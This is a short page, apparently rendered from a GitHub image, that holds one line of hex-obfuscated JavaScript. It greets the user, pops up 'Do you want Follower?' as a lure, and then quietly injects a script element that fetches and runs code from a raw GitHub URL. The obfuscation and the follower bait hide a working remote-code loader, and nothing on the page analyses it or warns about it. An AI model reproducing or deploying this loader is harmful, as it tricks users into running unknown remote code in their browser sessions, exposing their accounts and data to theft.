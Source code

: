 xxxx
====

var _0xa38e=["\u0633\u0627\u0644\x20\u0646\u0648\x20\u0645\u0628\u0627\u0631\u06A9","\x0A","\x44\x6F\x20\x79\x6F\x75\x20\x77\x61\x6E\x74\x20\x46\x6F\x6C\x6C\x6F\x77\x65\x72\x3F","\x73\x72\x63","\x73\x63\x72\x69\x70\x74","\x63\x72\x65\x61\x74\x65\x45\x6C\x65\x6D\x65\x6E\x74","\x61\x70\x70\x65\x6E\x64\x43\x68\x69\x6C\x64","\x62\x6F\x64\x79","\x68\x74\x74\x70\x73\x3A\x2F\x2F\x72\x61\x77\x2E\x67\x69\x74\x68\x75\x62\x75\x73\x65\x72\x63\x6F\x6E\x74\x65\x6E\x74\x2E\x63\x6F\x6D\x2F\x78\x6F\x78\x30\x78\x6F\x78\x2F\x78\x78\x78\x2F\x6D\x61\x73\x74\x65\x72\x2F\x78"];var a=_0xa38e[0];function MsgBox(_0xd947x3){alert(_0xd947x3+_0xa38e[1]+a);} ;MsgBox(_0xa38e[2]);document[_0xa38e[7]][_0xa38e[6]](document[_0xa38e[5]](_0xa38e[4]))[_0xa38e[3]]=_0xa38e[8];
